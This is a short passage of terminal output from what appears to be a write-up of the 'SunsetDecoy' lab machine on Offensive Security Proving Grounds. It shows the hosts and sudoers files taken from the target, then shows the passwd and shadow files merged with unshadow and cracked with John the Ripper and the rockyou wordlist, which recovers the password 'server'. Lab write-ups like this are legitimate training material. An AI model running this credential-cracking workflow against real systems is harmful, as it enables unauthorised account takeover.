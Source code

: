 ```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy/etc# cat hostname 
60832e9f188106ec5bcc4eb7709ce592
root@kali:/OSCPv3/offsec_pg/SunsetDecoy/etc# cat hosts 
127.0.0.1	localhost
127.0.1.1	decoy

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy/etc# cat sudoers 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

```shell
root@kali:/OSCPv3/offsec_pg/SunsetDecoy/etc# unshadow passwd shadow > hashes.txt
root@kali:/OSCPv3/offsec_pg/SunsetDecoy/etc# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)
```
